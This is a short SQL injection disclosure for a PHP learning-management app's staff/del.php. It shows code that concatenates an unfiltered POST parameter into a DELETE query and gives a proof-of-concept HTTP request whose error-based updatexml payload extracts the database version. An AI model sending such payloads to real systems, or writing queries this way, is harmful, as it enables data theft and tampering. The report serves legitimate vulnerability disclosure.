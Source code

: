 ### Vulnerability file address

`staff/del.php` from line 7

The incoming $M_Id variable is not filtered, there is sql injection

```php
......
......
......
  if (isset($_POST['delete'])) {
    $M_Id = $_POST['M_Id'];
    echo $sql = "DELETE FROM `message` WHERE M_Id = $M_Id ";
    $con->query($sql) or die($con->error);


    echo header("Location: ../staff/recieve.php")  ;
  }
......
......
......
```

### POC

not exists any precondition

```http
POST /staff/del.php HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

delete=&M_Id=1+and+(updatexml(1,concat(0x7e,(select version()),0x7e),1))+%23
```

### Attack results pictures

![image-20220702215401892](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220702215401.png)

